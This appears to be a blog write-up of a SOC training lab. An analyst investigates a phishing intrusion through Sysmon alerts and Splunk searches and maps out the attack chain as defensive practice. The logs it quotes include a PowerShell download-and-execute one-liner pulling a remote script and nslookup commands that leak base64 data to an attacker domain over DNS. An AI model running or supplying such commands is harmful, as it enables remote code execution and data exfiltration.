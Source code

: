 ```yaml
---
layout: single
title: "Phishing Unfolding"
excerpt: "Dive into the heat of a live phishing attack as it unfolds within the corporate network."
date: 2024-12-28
classes: wide
header:
  teaser: /blog/assets/images/phishing-alert/phishing-detection.png
  teaser_home_page: true
  icon: /blog/assets/images/cybersecurity-alert.webp
categories:
  - Incident Response
---
```

**Scenario Details**

**Description**  
Dive into the heat of a live phishing attack as it unfolds within the corporate network. In this high-pressure scenario, your role is to meticulously analyze and document each phase of the breach as it happens. Can you piece together the attack chain in real-time and prepare a comprehensive report on the malicious activities?

---

**Scenario Objectives**  
- Monitor and analyze real-time alerts as the attack unfolds.  
- Identify and document critical events such as PowerShell executions, reverse shell connections, and suspicious DNS requests.  
- Create detailed case reports based on your observations to help the team understand the full scope of the breach.

---

**Access the Alert Queue**

1. Navigate to the SOC Dashboard
![](../assets/images/phishing-unfolding/thmsoc-dashboard.mht)

2. Open the alert queue and review the real-time alerts generated by the system.
![](../assets/images/phishing-unfolding/2.png)

The Alert Queue is a workspace for SOC analysts to manage and investigate security alerts. It provides a streamlined way to assess the urgency of alerts, pick them up for investigation, and document findings.

---

**Key Components in the Alert Queue**

1. **Assigned Alerts Section**  
   - Displays alerts assigned to you for tracking and investigation.

2. **Alert List**  
   - Lists alerts needing action, including:
     - **ID:** Unique identifier (e.g., 1033, 1032).
     - **Alert Rule:** Description of what triggered the alert.
     - **Severity:** Medium (requires attention) or Low (can be deprioritized).
     - **Type:** Execution (process-related activity), Phishing (email-related activity), or Process (suspicious behavior).
     - **Date:** Timestamp of alert generation.
     - **Status:** Current state (e.g., Awaiting Action).
     - **Action Button:** Click to take ownership of an alert.

3. **Filters**  
   - Organize alerts by:
     - Severity: High, Medium, Low.
     - Type: Phishing, Execution, Process.
     - Status: Pending, Resolved, Under Investigation.

4. **Search Bar**  
   - Locate specific alerts using keywords, IDs, or rules.
![](../assets/images/phishing-unfolding/3.png)
![](../assets/images/phishing-unfolding/4.png)

---

**Identifying Critical Alerts**

- The alert queue displays multiple **High severity** alerts for **"Suspicious Parent-Child Relationship"**, classified as **Process type**.
- These alerts indicate potential malware activity, privilege escalation, or unauthorized access.
![](../assets/images/phishing-unfolding/5.png)

---

**Investigate Alerts**

1. **Take Ownership of Alerts**
   - Click the "Action" button to assign the alert to yourself.
   ![](../assets/images/phishing-unfolding/6.png)

   - Example: Assigned alert ID 1049 (High Severity, Process-related, "Suspicious Parent-Child Relationship").
   ![](../assets/images/phishing-unfolding/7.png)


2. **Analyze Alert ID 1049**
   - **Datasource:** Sysmon  
   - **Timestamp:** 28/12/2024 11:47:56.301  
   - **Event Code:** 1 (Process Creation)  
   - **Host Name:** win-3450  
   - **Process Name:** nslookup.exe  
   - **Parent Process Name:** powershell.exe  
   - **Command Line:**  
     ```
     "C:\Windows\system32\nslookup.exe" RmJjEyNGZiMTY1NjZlFQ==.haz4rdw4re.io
     ```
   - **Working Directory:** C:\Users\michael.ascot\downloads\
---

**Initial Observations**

- **PowerShell (Parent Process)**: Frequently exploited by attackers for executing scripts and downloading payloads.
- **nslookup.exe (Child Process)**: Used for DNS queries, but its execution in this context is unusual and likely malicious.
- **Encoded String in Command Line**: Needs decoding to uncover possible exfiltrated data.
- **Suspicious Working Directory**: Files originating from the Downloads folder suggest unauthorized activity.
  ![](../assets/images/phishing-unfolding/8.png)
  ![](../assets/images/phishing-unfolding/9.png)

---

**Investigate Further Using SIEM (Splunk)**

1. **Search for Related Events in Splunk:**

   index=* nslookup.exe
  ![](../assets/images/phishing-unfolding/10.png)
  ![](../assets/images/phishing-unfolding/11.png)

   - **Observations:**
     - Repeated execution of nslookup.exe.
     - Suspicious domain (haz4rdw4re.io).
     - Base64-encoded strings hinting at data exfiltration or Command and Control (C2) communication.
    ![](../assets/images/phishing-unfolding/12.png)
    ![](../assets/images/phishing-unfolding/13.png)

2. **Analyze Parent Process (PowerShell):**

   index=* process.parent.pid=3728
    ![](../assets/images/phishing-unfolding/14.png)
    ![](../assets/images/phishing-unfolding/15.png)

   - Confirmed multiple child processes initiated by PowerShell, indicating possible malicious automation.
    ![](../assets/images/phishing-unfolding/16.png)


3. **Investigate PowerShell Activity:**
   
   index=* powershell.exe
    ![](../assets/images/phishing-unfolding/17.png)

   - Found execution of a command downloading a suspicious script:
     
     IEX(New-Object System.Net.WebClient).DownloadString("http://malicious-url/script.ps1")
     
   - **Unusual Execution Pattern:** Attackers often leverage PowerShell for covert actions.

---

**Summary of Events**

- **PowerShell spawned multiple instances of nslookup.exe, likely for C2 communication.**
- **Each execution involved encoded data and a suspicious domain (haz4rdw4re.io).**
- **Execution originated from an ‘exfiltration’ directory, suggesting data theft.**
- **PowerShell executed a potentially malicious script, indicating a larger attack chain.**
- **Patterns suggest lateral movement, reconnaissance, or exfiltration.**
    ![](../assets/images/phishing-unfolding/18.png)
    ![](../assets/images/phishing-unfolding/19.png)


---

**Next Steps**

- **Decode Base64 Strings**: To analyze potential payloads or exfiltrated data.
- **Correlate Logs Across Systems**: Check endpoint logs for related events.
- **Identify Attacker Techniques**: Map findings to MITRE ATT&CK framework.
- **Contain and Mitigate**: Block malicious domains and isolate the affected host.

---

**Conclusion**

This investigation demonstrates how attackers use legitimate tools like PowerShell and nslookup.exe for malicious purposes. By analyzing real-time alerts and logs, SOC analysts can detect and mitigate threats before they escalate into a full-blown breach.

